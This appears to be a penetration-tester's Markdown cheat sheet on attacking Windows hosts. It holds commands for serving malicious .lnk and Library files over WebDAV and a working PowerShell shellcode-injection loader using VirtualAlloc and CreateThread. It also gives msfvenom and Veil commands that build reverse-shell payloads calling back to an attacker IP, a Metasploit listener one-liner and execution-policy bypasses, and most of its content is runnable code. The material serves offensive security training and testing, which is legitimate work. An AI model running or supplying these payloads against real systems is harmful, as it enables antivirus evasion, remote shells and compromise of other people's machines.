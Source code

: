 # Microsoft Windows attacks

## WebDAV shares

To share malicious Library or .lnk files:
```
kali$ pip install wsgidav # or with apt-get
kali$ mkdir mywebdav # share visible on Windows Explorer
kali$ /path/to/wsgidav --host=0.0.0.0 --auth=anonymous --port $AttackerPort --root ./mywebdav
```

Library files: 
- https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry
- https://github.com/ThomasBucaioni/pentools/blob/main/microsoft/config.Library-ms

Link `.lnk` files: https://learn.microsoft.com/en-us/windows/win32/shell/links 

## Anti-Virus evasion

Modern viruses:
- https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/
- https://web.archive.org/web/20210317102554/https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf

### Powershell memory injection

Memory injection types:
- https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process
- https://blog.f-secure.com/memory-injection-like-a-boss/

#### Script

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = someshellcode;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Shell code:
```
kali$ msfvenom -p windows/shell_reverse_tcp LHOST=$AttackerIp LPORT=$AttackerPort -f powershell -v sc
```

#### Execution policy

See ByPass: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.3

##### At system level

```
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

##### At script level

```
PS> powershell -ep bypass ./somescript.ps1
```

### Shellter

Project: https://www.shellterproject.com/

Metasploit listener:
```
kali$ msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $AttackerIP;set LPORT $AttackerPort;run;"
```

### Veil

Install:
```
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

Issue: https://github.com/Veil-Framework/Veil/issues/428
```
sudo -u "${trueuser}" WINEPREFIX="${winedir}" wine "${winedir}/drive_c/Python34/python.exe" "-m" "pip" "install" "-Iv" "pefile==2019.4.18"
```

Usage:
```
kali$ veil -e Evasion -p powershell/meterpreter/rev_tcp --msfpayload windows/meterpreter/reverse_tcp --msfoptions LHOST=$AttackerIp LPORT=$AttackerPort
```

